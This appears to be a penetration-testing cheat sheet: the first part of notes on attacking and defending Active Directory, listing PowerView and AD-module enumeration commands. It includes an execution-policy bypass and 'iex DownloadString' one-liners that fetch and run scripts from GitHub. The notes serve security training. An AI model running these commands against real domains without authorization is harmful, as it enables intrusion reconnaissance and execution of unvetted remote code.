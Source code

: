 <div align="center">
<h1> Attacking and Defending Active Directory :nepal: </h1>
<a href="https://twitter.com/nirajkharel7" ><img src="https://img.shields.io/twitter/follow/nirajkharel7?style=social" /> </a>
</div>

## Domain Enumerationn Part 1
- The enumeration can be done by using Native executables and .NET classes
- `$ADClass = [System.DirectoryServices.ActiveDirectory.Domain]`
- `$ADClass::GetCurrentDomain()`
- Where `DirectoryServices.ActiveDirectory.Domain` is a class and `GetCurrentDomain()` is a static method.

**Domain Enumeration with Powerview and AD PowerShell module**
- To speed up things we can use Powerview:
- `https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1`

- The Active Directory PowerShell module
- `https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps`
- `https://github.com/samratashok/ADModule`
- (To use ActiveDirectory module without installing RSAT, we can use Import-Module for the valid ActiveDirectory module DLL)

**Run unrestricted commands with powershell**
- `powershell -ep bypass`
- **Powerview Script Download**
- `iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dievus/PowerShellForPentesters/main/Tools/PowerView.ps1')`
- **ActiveDirectory Module Download**
- `https://github.com/samratashok/ADModule` Download and Execute with `. .\Import-ActiveDirectory.ps1;Import-ActiveDirectory`
-  or
- `iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory `

**Get Current Domain**
- `Get-NetDomain` (Powerview)
- `Get-ADDomain` (ActiveDirectory Module)

**Get object of another domain**
- `Get-NetDomain -Domain <domain-name>`
- `Get-ADDomain -Identity <domain-name>`

**Get Domain SID for the current domain**
- `Get-DomainSID`
- `(Get-ADDomain).DomainSID`

**Get domain policy for the current domain**
- `Get-DomainPolicy`
- `(Get-DomainPolicy)."system acccess"`

**Get domain policy for another domain**
- `(Get-DomainPolicy -domain moneycorp.local)".system access"`

**Get domain controllers for the current domain**
- `Get-NetDomainController`
- `Get-ADDomainController`

**Get domain controllers for another domain**
- `Get-NetDomainController -Domain <domain-name>`
- `Get-ADDomainController -DomainName <domain-name> -Discover`

**Get a list of users in the current domain**
- `Get-NetUser`
- `Get-NetUser -Username <username>`
- `Get-ADUser -Filter * -Properties *`
- `Get-ADUser -Identity <username> -Properties *`

**Get list of all properties for users in the current domain**
- `Get-UserProperty`
- `Get-UserProperty -Properties pwlastset`
- `Get-ADUser -Filter * -Properties * | select -First 1 | Get-Member -MemberType *Property | select Name`
- `Get-ADUser -Filter * -Properties * | select name,@{expression={[datetime]::fromFileTime($_.pwdlastset)}}`

**Search for a particular string in a user's attributes**
- `Find-UserField -SearchField Description`
- `Find-UserField -SearchField Description -SearchTerm "built"`
- `Get-ADUser -Filter 'Description -like "*built*"' -Properties Description | select name,Description`

**Get a list of computers in the current domain**
- `Get-NetComputer`
- `Get-NetComputer -OperatingSystem "*Server 2016"`
- `Get-NetComputer -Ping`
- `Get-NetComputer -FullData`
- `Get-ADComputer -Filter *`
- `Get-ADComputer -Filter * | select Name`

**Get all the groups in the current domain**
- `Get-NetGroup`
- `Get-NetGroup -Domain <targetDomain>`
- `Get-NetGroup -FullData`
- `Get-ADGroup -Filter * | select name`
- `Get-ADGroup -Filter * -Properties *`

**Get all groups containing the word "admin" in group name**
- `Get-NetGroup -GroupName *admin*`
- `Get-ADGroup -Filter 'Name -like "*admin*"' | select Name`
